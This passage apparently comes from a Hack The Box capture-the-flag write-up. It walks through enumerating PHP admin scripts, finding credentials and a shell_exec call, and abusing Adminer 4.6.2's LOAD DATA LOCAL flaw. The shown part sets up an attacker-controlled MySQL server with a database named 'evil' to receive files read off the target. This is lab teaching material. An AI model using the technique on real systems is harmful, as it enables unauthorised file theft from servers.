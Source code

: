 ### utility-scripts
The utility-scripts directory contains 4 PHP scripts:
* admin\_tasks.php
* db\_admin.php
* info.php
* phptest.php

phptest.php and info.php are pretty basic and just have some diagnostic php information, but db\_admin.php and admin\_tasks.php have some interesting stuff.

#### admin\_tasks.php
admin\_tasks.php is a page with a dropdown to select between different tasks to run, some of which are rather powerful (e.g., backing up the database, website, or /etc/shadow)
Looking at the PHP code we can find the line `echo str_replace("\n", "<br />", shell_exec("/opt/scripts/admin_tasks.sh $task 2>&1"));` which reveals to us the existence of a script in the "/opt/scripts/" directory. This will be useful later.

#### db\_admin.php
db\_admin.php contains some credentials for a MySQL database located on the host, but that didn't come up in our initial Nmap scan, so we'll just have to keep these credentials in mind for now.

## Gobuster Part 2
Since we've exausted our new information, it's time to begin enumeration on the new directories (utility-scripts and w4ld0s\_s3cr3t\_d1r). Trying multiple wordlists on the waldos secret directory didn't turn up anything,
but /utility-scripts returned `/adminer.php (Status: 200)` (via the same command as before, just a new directory)

## Adminer
Adminer is a database administration web interface. This allows us to try those mysql credentials that we've accessed previously in `index.php` and `db_admin.php`. Unfortunately, the credentials don't work. But we're not done here yet!

### Reading Local Files with Adminer
Adminer version 4.6.2 had a serious vulnerability that allowed you read files on the host machine without connecting to the database on the host itself. The Adminer interface allows you to connect to any database you have credentials for, regardless if it is being hosted on the same machine that Adminer is located on.
If you connect it to a database you control, you can use the `LOAD DATA LOCAL` MySQL command to load files from the target machine to your database.

#### Database Setup
On your Kali machine, MySQL and MariaDB are probably already installed. In order to make sure your MySQL server can be accessed by Adminer, make sure to change your bind-address in `/etc/mysql/mariadb.conf.d/50-server.cnf` to your HTB VPN address. Then, restart your MySQL service (`sudo systemctl restart mysql`).
Then, log into your MySQL server (`sudo mysql -u root -p`) and enter the following commands:

```
CREATE USER 'jacob'@'%' IDENTIFIED BY 'jacob';
GRANT ALL ON *.* TO 'jacob'@'%';
CREATE DATABASE IF NOT EXISTS evil;
USE evil;
CREATE TABLE theLines(
	line TEXT(50000)
);
```
